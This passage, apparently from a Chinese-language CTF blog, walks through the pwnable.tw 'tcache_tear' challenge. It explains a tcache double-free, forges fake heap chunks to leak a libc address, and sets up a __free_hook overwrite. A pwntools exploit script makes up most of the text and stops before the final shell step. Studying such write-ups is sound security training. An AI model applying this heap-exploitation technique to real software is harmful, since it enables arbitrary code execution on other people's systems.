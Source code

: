 方法二，泄露libc后，使用使用ret2csu来调用write函数进行getshell
参考链接：https://ptr-yudai.hatenablog.com/entry/2019/06/03/113943#pwnable-494pts-rank

### tcache_tear

这是一道`tcache`的题目，然后漏洞点在于`free`之后没有清零导致的`double free`但是限制了`free`次数为7次，但是我们可以在`name`输入的时候设置`fake_chunk`去`free`得到`libc`，然后`show`出来就可以泄露libc地址，最后在利用`double free`来覆盖` free_hook`就完事了。

其中需要注意的是，要free掉fake块的时候需要提前在对应块的下一块的位置set好改pre的inuse位为1，否则会报`double free or corruption (!prev)`
具体脚本如下：

```
from pwn import *

def add(size,note):
    p.sendlineafter(":","1")
    p.sendlineafter(":",str(size))
    p.sendafter(":",note)

def delete():
    p.sendlineafter(":","2")



#context.log_level="debug"
p=process("./tcache_tear")#,env = {'LD_PRELOAD' : './libc.so'})
#p=remote("chall.pwnable.tw",10207)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p.sendlineafter("Name:","name_ZoE")

# 602060
#leak libc

# passby double free or corruption (!prev)
add(0x70,"ZoE\n")
delete()
delete()
add(0x70,p64(0x602550))  # fd = 0x602550
add(0x70,"ZoE\n")
add(0x70,p64(0)+p64(0x21)+p64(0)*2+p64(0)+p64(0x21)) # 0x602550's content
# passby double free or corruption (!prev) 0x21 -> set pre inuse flag = 1

pause()
add(0x60,"ZoE\n")
delete() # double free again
delete()
add(0x60,p64(0x602050)) # fd = 0x602550 double free to name's addr
add(0x60,"ZoE\n")

add(0x60,p64(0)+p64(0x501)+p64(0)*5+p64(0x602060)) # big fake heap chunk *(0x602088(ptr)) = 0x602060 -> free ptr
delete()

p.sendlineafter(":","3")
p.recvuntil("Name :")
libc_addr=u64(p.recv(8))-0x3ebca0
log.info(hex(libc_addr))

#write free_hook
free_hook=libc_addr+libc.symbols['__free_hook']
system_addr=libc_addr+libc.symbols['system']
add(0x40,"ZoE\n")
delete()
delete()
add(0x40,p64(free_hook))
```